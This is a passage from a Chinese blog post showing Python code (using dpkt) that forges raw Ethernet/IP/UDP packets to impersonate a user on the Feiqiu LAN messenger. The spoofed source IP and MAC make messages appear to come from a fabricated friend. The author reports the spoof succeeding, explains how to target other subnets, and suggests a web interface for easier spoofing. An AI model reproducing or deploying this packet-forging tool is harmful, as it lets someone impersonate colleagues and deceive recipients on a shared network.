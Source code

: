     ip=dpkt.ip.IP(src=src_ip,dst=dst_ip,data=udp,p=dpkt.ip.IP_PROTO_UDP)
    #重新计算ip的长度,不然消息发送不出去
    ip.len=len(ip)
    
    ether=dpkt.ethernet.Ethernet(
        dst=dst_mac,
        src=src_mac,
        type=0x0800,
        data=ip
    )
    sendpkt.sendpacket(str(ether),device)

def trans(ip,mask=&#39;255.255.255.0&#39;):
    &#39;&#39;&#39;
          判断两个ip地址是否在同一个网段
    &#39;&#39;&#39;
    str=[]
    ip=ip.split(&quot;.&quot;)
    mask=mask.split(&quot;.&quot;)
    for index,item in enumerate(ip):
        str.append(int(item)&amp;int(mask[index]))
    return str


def pack_mac(mac,pattern=&#39;-&#39;):
    &#39;&#39;&#39;
         网卡地址转为以太网Mac地址
         例如将&quot;08-00-27-ba-f7-e5&quot;转为&quot;\x08\x00&#39;\xba\xf7\xe5&quot;
    &#39;&#39;&#39;
    mac=mac.split(pattern.lower())
    return &quot;&quot;.join([chr(int(&#39;0x&#39;+x,16)) for x in mac])

if __name__==&quot;__main__&quot;:
    s={
       &#39;src&#39;:&#39;192.168.0.106&#39;,
       &#39;dst&#39;:&#39;192.168.0.100&#39;,
       &#39;src_mac&#39;:&#39;00-15-AF-AE-E6-C0&#39;,
       #这个地址最好别写错，可以从飞鸽上看到好友的Mac地址
       &#39;dst_mac&#39;:&#39;00-24-81-62-75-12&#39;,
       &#39;host&#39;:&#39;哈哈&#39;,
       &#39;user&#39;:&#39;呵呵&#39;,
       &#39;msg&#39;:&#39;加班呀?&#39;
    }
    send_msg(s)

</pre>
<br>
<br>
<br>代码我就不解释了，大家可以看里面的注释，写得比较明白。。我们来测试下，看看效果。。。从之前的图片上可以看到，我飞秋上就两个好友，我们现在要凭空造出来一个，他的ip是192.168.0.106，mac是00-15-AF-AE-E6-C0
<br>运行后，可以看到这样的结果：
<br>
<br><img src="http://dl.javaeye.com/upload/attachment/347641/6352aa48-cbc8-3f05-a4b6-12b1286a39dc.png">
<br>
<br><img src="http://dl.javaeye.com/upload/attachment/347643/8128ab32-5f4a-368a-ba62-93da87cf5d7f.png">
<br>
<br>
<br>貌似是可以欺骗成功了。。不过如果要欺骗其他网段的飞秋好友，一定要修过代码中的MASK_MAC字段，大家用wireshark分析飞秋的UPD数据包就知道了。。。
<br>
<br>
<br>如果大家有兴趣，可以自己做个图形化的界面，比如web页面，可以图形化的进行欺骗。。。那就有意思了，比如：
<br>
<br><img src="http://dl.javaeye.com/upload/attachment/347662/366cbb0e-e4e4-3e40-831f-08c9658078f4.png">
<br>